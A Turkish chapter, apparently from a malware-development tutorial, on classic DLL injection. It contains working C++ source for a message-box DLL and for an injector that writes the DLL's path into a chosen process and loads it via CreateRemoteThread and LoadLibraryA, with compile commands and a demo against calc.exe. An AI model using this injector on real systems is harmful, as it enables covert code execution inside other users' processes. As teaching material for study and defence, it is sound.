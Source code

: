 \newpage
\subsection{5. klasik DLL enjeksiyonu işlemi. basit C++ zararlı yazılım.}

﷽

![DLL injection](./images/7/2021-09-20_15-01.png){width=400px}    

Bu bölümde, debugging API kullanılarak yapılan klasik bir DLL enjeksiyonu tekniğini ele alacağız.     

Klasik kod enjeksiyonundan önceki bölümde bahsetmiştim.

Öncelikle, DLL'imizi hazırlayalım.      

`exe` ve `DLL` yazımında bazı küçük farklar vardır. Temel fark, modülünüzde veya programınızda kodunuzu nasıl çağırdığınızdır. `exe` durumunda, işletim sistemi yükleyicisinin yeni bir sürecin tüm başlatma işlemlerini tamamladığında çağırdığı bir `main` fonksiyonu bulunmalıdır. Bu noktada, işletim sistemi yükleyicisi işini bitirdiğinde programınız çalışmaya başlar.    

Öte yandan, programınızı dinamik bir kütüphane olarak (`DLL`) çalıştırmak istediğinizde, durum biraz farklıdır. Yükleyici zaten bellekte bir süreç oluşturmuş olur ve bu süreç, bir şekilde DLL'inize veya başka bir DLL'e ihtiyaç duyar. Bu, DLL'inizin uyguladığı bir fonksiyon nedeniyle olabilir.     

*Özetle, `exe` bir main fonksiyonuna ihtiyaç duyar, `dll` ise bir `DLLMain` fonksiyonuna ihtiyaç duyar.*     

Bu, en temel farktır.     

Basitlik açısından, yalnızca bir mesaj kutusu açan bir DLL oluşturacağız:     

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

DLL yalnızca DllMain fonksiyonundan oluşur ve bu, bir `DLL` kütüphanesinin ana fonksiyonudur. Normalde meşru `DLL`'ler dışa aktarılmış (exported) fonksiyonlar tanımlar, ancak bu `DLL` herhangi bir dışa aktarılmış fonksiyon tanımlamaz. `DllMain` kodu, `DLL` sürecin belleğine yüklendikten hemen sonra çalıştırılır.     

Bu durum, DLL Enjeksiyonu bağlamında önemlidir çünkü başka bir süreç bağlamında kod çalıştırmanın en basit yolunu arıyoruz. Bu nedenle, enjekte edilen kötü amaçlı `DLL`'lerin çoğu, kötü amaçlı kodlarının büyük bir kısmını `DllMain` içine yazar. Bir süreci dışa aktarılmış bir fonksiyonu çalıştırmaya zorlamanın yolları vardır, ancak kodunuzu `DllMain` içinde yazmak genellikle kod çalıştırmanın en basit çözümüdür.    

Enjekte edilmiş süreçte çalıştırıldığında, mesajımızı görüntülemelidir: `"Meow from evil.dll!"`, bu da enjeksiyonun başarılı olduğunu gösterir.    

Şimdi bunu derleyebiliriz (saldırganın makinesinde):    

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](./images/7/2021-09-20_17-01.png){width=400px}    

ve bunu seçtiğimiz bir dizine koyun (hedef makine):

![put DLL](./images/7/2021-09-20_17-09.png){width=400px}

Şimdi tek ihtiyacımız olan, bu kütüphaneyi seçtiğimiz bir sürece enjekte edecek bir kod.     

Bizim durumumuzda klasik DLL enjeksiyonundan bahsedeceğiz. Boş bir tampon ayırıyoruz ve bu tampon en az diskten DLL yolunun uzunluğu kadar olmalıdır. Daha sonra bu yolu tampona kopyalıyoruz.    

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Gördüğünüz gibi oldukça basit. Klasik kod enjeksiyonu bölümümdekiyle aynı. Tek fark, diskten `DLL`'imizin yolunu eklememiz **(1)** ve `DLL`'imizi enjekte edip çalıştırmadan önce `LoadLibraryA`'nın bellek adresine ihtiyacımız var. Bu, `DLL`'imizi yüklemek için kurban sürecin bağlamında çalıştıracağımız bir API çağrısı olacaktır **(2)**:    

![LoadLibraryA](./images/7/2021-09-20_18-11.png){width=400px}

Son olarak, enjektörün tüm kodunu anladıktan sonra, bunu test edebiliriz.  
Derlemek için şu komutu çalıştırın:

```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](./images/7/2021-09-20_18-20.png){width=400px}

Öncelikle bir `calc.exe` örneğini başlatalım ve ardından programımızı çalıştıralım:

![run injector](./images/7/2021-09-20_18-25.png){width=400px}

DLL'imizin gerçekten `calc.exe` sürecine enjekte edildiğini doğrulamak için Process Hacker kullanabiliriz.

![Process Hacker](./images/7/2021-09-22_09-03.png){width=400px}

Belleğin başka bir bölümünde şunları görebiliriz:     

![Process Hacker 2](./images/7/2021-09-22_09-23.png){width=400px}

Görünüşe göre basit enjeksiyon mantığımız işe yaradı! Bu, başka bir sürece DLL enjekte etmenin en basit yoludur, ancak birçok durumda yeterli ve oldukça kullanışlıdır.      

Eğer isterseniz, ilerideki bölümlerde araştırılacak olan fonksiyon çağrısı gizleme (obfuscation) yöntemlerini de ekleyebilirsiniz.     

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Kaynak kodu Github'da](https://github.com/cocomelonc/2021-09-24-injection-2)

İlerleyen bölümlerde daha gelişmiş kod enjeksiyonu tekniklerini bulmaya çalışacağım.     
